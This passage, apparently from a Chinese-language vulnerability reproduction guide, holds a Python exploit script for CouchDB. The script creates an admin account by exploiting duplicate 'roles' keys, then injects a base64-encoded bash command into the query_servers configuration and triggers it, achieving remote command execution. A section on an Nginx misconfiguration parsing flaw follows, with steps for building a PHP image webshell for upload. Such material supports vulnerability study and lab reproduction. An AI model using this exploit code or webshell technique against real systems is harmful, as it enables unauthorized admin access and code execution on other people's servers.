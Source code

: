 ```python
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:co0ontty', data='''{
  "type": "user",
  "name": "co0ontty",
  "roles": ["_admin"],
  "roles": [],
  "password": "co0ontty"
}''')

session.auth = HTTPBasicAuth('co0ontty', 'co0ontty')
# print (session.auth)
command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
# print (command)
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/co0ontty')
session.put(target + '/co0ontty/test', data='{"_id": "id"}')

if version == 1:
    session.post(target + '/co0ontty/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/co0ontty/_design/test', data='{"_id":"_design/test","views":{"co0ontty":{"map":""} },"language":"cmd"}')
```

## NGINX解析漏洞

`Path:nginx/nginx_parsing_vulnerability`

漏洞成因：用户配置不当造成的解析漏洞。

### 漏洞复现：

![5cffa56981f5625236](https://i.loli.net/2019/06/11/5cffa56981f5625236.png)

制作php的图片马进行上传，利用解析漏洞将图片马当做php解析并运行。

```php
<?phpinfo()?>
```

```powershell
copy 1.jpg /a + shell.php /b shell.jpg
```
